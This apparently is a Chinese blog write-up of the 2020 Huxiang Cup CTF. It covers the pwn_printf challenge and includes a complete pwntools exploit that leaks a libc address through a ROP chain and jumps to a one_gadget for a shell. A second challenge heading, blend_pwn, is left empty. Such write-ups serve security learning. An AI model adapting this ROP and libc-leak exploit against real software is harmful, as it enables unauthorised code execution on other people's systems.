 ```yaml
---
title: 2020湖湘杯wp
date: 2020-11-13 17:36:17
tags: CTF
---
```


## pwn_printf  

这题属实给我吓着了，一堆字符串  

说是google ctf的原题改编而来，我还特意去b站Nep那找这题的讲解，我看得懂个锤子……  

![](1.png)  

反正看了别人wp说是输入16次0x20就能直接进入sub_4007C6函数，可以直接溢出然后ROP  

但是至今没有搞清楚原理  

后续补吧……  

### exp  

```python
#!/usr/bin/env python
#coding=utf-8
from pwn import*
import sys
context.log_level = 'debug'
context.terminal = ['terminator','-x','sh','-c']
binary = './pwn_printf' 
local = 1
if local == 1:
    p=process(binary)
else:
    p=remote("",)
elf=ELF(binary)
libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')
pop_rdi_ret = 0x0000000000401213
def exp():
    p.recvuntil('interesting\n')
    for i in range(16):
        p.sendline("32")
    payload = 'a'*8+p64(pop_rdi_ret)+p64(elf.got['puts'])+p64(elf.plt['puts'])+p64(pop_rdi_ret)+p64(0x20)+p64(0x4007C6)
    p.send(payload)
    puts_addr = u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))
    libc_base = puts_addr - 0x6f6a0
    log.success("libc_base==>" + hex(libc_base))
    one_gadget = libc_base + 0xf0364
    p.sendline('a'*8+p64(one_gadget))
    p.interactive()
exp()
```

## blend_pwn  



